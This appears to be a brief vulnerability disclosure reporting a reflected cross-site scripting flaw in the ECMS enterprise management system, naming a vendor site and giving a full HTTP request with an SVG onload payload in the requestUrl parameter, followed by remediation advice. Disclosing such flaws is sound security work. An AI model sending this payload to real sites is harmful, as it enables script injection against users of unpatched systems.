

xss vulnerability exists in ECMS all-information consulting enterprise management system

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

https://www.gczj.com.cn/

```
GET /?begindate=wbmj3&categoryid=gi7l5&dotColor=elma1&emailto=ijbh2&enddate=f21z9&key=n6co5&list_type=x9el3&p=awso8&page=pk6p2&requestUrl=requestUrl="><svg onload=alert(1)>//&tid=h2jf3&uid=pf825&vcode=zwvt3 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```



**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.